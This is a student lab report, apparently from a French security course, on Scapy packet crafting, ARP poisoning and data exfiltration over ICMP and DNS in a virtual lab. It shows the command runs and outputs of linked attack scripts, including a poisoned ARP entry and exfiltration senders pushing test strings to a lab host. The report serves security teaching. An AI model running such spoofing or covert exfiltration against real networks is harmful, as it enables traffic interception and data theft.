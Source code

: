 # TP4 SECU : Exfiltration

# Sommaire

- [Sommaire](#sommaire)
- [I. Getting started Scapy](#i-getting-started-scapy)
- [II. ARP Poisoning](#ii-arp-poisoning)
- [II. Exfiltration ICMP](#ii-exfiltration-icmp)
- [III. Exfiltration DNS](#iii-exfiltration-dns)

# I. Getting started Scapy

🌞 **`ping.py`**

[Script](./Scripts/ping.py)

```sh
$ sudo python3 ping.py
Begin emission:
Finished sending 1 packets.
.*
Received 2 packets, got 1 answers, remaining 0 packets
Answers :
 - QueryAnswer(query=<IP  frag=0 proto=icmp src=192.168.56.5 dst=192.168.56.1 |<ICMP  type=echo-request |>>, answer=<IP  version=4 ihl=5 tos=0x0 len=28 id=62475 flags= frag=0 ttl=64 proto=icmp chksum=0x957e src=192.168.56.1 dst=192.168.56.5 |<ICMP  type=echo-reply code=0 chksum=0x0 id=0x0 seq=0x0 |<Padding  load='\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00' |>>>)
```

🌞 **`tcp_cap.py`**

[Script](./Scripts/tcp_cap.py)

```bash
$ sudo python3 tcp_cap.py
TCP SYN ACK reçu !
- Adresse IP src : 142.250.179.78
- Adresse IP dst : 10.0.2.15
- Port TCP src : 443
- Port TCP dst : 47168
```

🌞 **`dns_cap.py`**

[Script](./Scripts/dsn_cap.py)

```bash
$ dig ynov.com

; <<>> DiG 9.19.17-1-Debian <<>> ynov.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 54956
;; flags: qr rd ra; QUERY: 1, ANSWER: 3, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;ynov.com.			IN	A

;; ANSWER SECTION:
ynov.com.		2	IN	A	104.26.11.233
ynov.com.		2	IN	A	172.67.74.226
ynov.com.		2	IN	A	104.26.10.233

;; Query time: 8 msec
;; SERVER: 192.168.1.1#53(192.168.1.1) (UDP)
;; WHEN: Tue Nov 28 18:52:33 CET 2023
;; MSG SIZE  rcvd: 85
```

En même temps : 

```bash
$ sudo python3 dns_cap.py
104.26.11.233 ; 172.67.74.226 ; 104.26.10.233 ;
```

🌞 **`dns_lookup.py`**

[Script](./Scripts/dns_lookup.py)

```bash
$ sudo python3 dns_lookup.py
104.26.10.233 ; 104.26.11.233 ; 172.67.74.226 ;
```

# II. ARP Poisoning

🌞 **`arp_poisoning.py`**

[Script](./Scripts/arp_poisoning.py)

Depuis la cible :

```bash
$ ip a | grep 'inet ' | grep vboxnet0
    inet 192.168.56.1/24 brd 192.168.56.255 scope global vboxnet0
$ ip n s | grep 10.13.33.37
```

Depuis l'attaquant :

```bash
$ ip a | grep 'inet ' | grep eth0 
    inet 192.168.56.5/24 brd 192.168.56.255 scope global dynamic noprefixroute eth0
$ sudo python3 arp_poisoning.py   
poisoning ongoing...
```

Depuis la cible :

```bash
$ ip n s | grep 10.13.33.37
10.13.33.37 dev vboxnet0 lladdr de:ad:be:ef:ca:fe STALE
```

# II. Exfiltration ICMP

🌞 **`icmp_exf_send.py`**

[Script](./Scripts/icmp_exf_send.py)

```bash
$ sudo python3 icmp_exf_send.py 192.168.56.1 t
.
Sent 1 packets.
```

[Capture du ping.](./icmp_exfr_send.pcapng)

Contenu du ping en ascii : 
''NaE@À¨8À¨8ÿt

🌞 **`icmp_exf_receive.py`**

[Script](./Scripts/icmp_exf_send.py)

```bash
$ sudo python3 icmp_exf_send.py 192.168.56.5 t
.
Sent 1 packets.
```

```bash
$ sudo python3 icmp_exf_rcv.py
t
```

# III. Exfiltration DNS

🌞 **`dns_exfiltration_send.py`**

[Script](./Scripts/dns_exfiltration_send.py)

```bash
$ sudo python3 dns_exfiltration_send.py 192.168.56.1 testing_this_test_to_test_my_test_oki
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
```

[Capture des requêtes DNS](./dns_exfiltration_test.pcapng)
